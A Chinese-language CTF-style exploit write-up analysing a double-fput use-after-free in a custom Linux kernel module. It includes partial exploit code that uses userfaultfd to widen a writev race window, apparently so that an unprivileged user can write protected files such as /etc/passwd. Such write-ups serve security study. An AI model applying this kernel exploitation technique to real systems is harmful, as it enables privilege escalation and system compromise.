 关闭设备的大体流程

sys_close()->filp_close()->fput()->__fput()->release()，所以调用fput函数会调用到 __fput()函数，减少对文件的引用计数

在执行[2] 前调用了check_encfile，如果encfile->f_op != &encBox_fops条件成立，将会调用fput函数，所以一共调用了两次fput，引用计数f_count减少2，导致uaf漏洞。要满足该判断条件，只需要文件块不是由box_create分配出来的就行。

### Exp分析

利用方式借鉴于Project Zero的https://bugs.chromium.org/p/project-zero/issues/detail?id=808
(CVE-2016-4557)

```
int main(){

  mod_fd = open("/dev/mod", O_RDWR);
  if(mod_fd == -1)  errExit("open(/dev/mod)");
  //mod_fd = 3
  int box = box_new(mod_fd,0x1337); //box = 4
  printf("[*] box_new : %x \n",box);
  set_box(mod_fd,box);// <-- [0]
  close(box);

  uaf_fd = open("/home/user/ll", O_RDWR | O_CREAT);// uaf_fd = 4
  printf("uaf_fd : %x \n",uaf_fd);

  struct iovec  * iov = (struct iovec  *) init_userfaltfd();
  ssize_t writev_res = writev(uaf_fd,iov, 1);

  printf("[*] writev return : %lx\n",writev_res);
}
```

[1]处调用set_box函数，由于fd_3是由box_new申请得到，所以encfile->f_op = &encBox_fops，不进行fput操作。

iov = init_userfaltfd()函数返回的是MAP_ANONYMOUS属性的页地址，访问时会触发缺页错误。

通过ssize_t writev(int fd, const struct iovec *iov, int iovcnt);函数将iov地址上的内容写入uaf_fd对应的文件中。

函数调用链如下：writev->do_writev->vfs_writev->do_readv_writev

在vfs_writev函数中对文件的可写权限进行了判断，此时uaf_fd对应/home/user/ll文件，可通过判断。(正常/etc/passwd普通用户是不可写的)

```
ssize_t vfs_writev(struct file *file, const struct iovec __user *vec,
           unsigned long vlen, loff_t *pos, int flags)
{
    if (!(file->f_mode & FMODE_WRITE))
        return -EBADF;
    if (!(file->f_mode & FMODE_CAN_WRITE))
        return -EINVAL;

    return do_readv_writev(WRITE, file, vec, vlen, pos, flags);
}
```

在判断可写权限和执行写操作之间的窗口就是我们的条件竞争窗口。我们可以通过userfaultfd来对该竞争窗口进行攻击，达到暂停执行写操作的效果，延长攻击窗口。
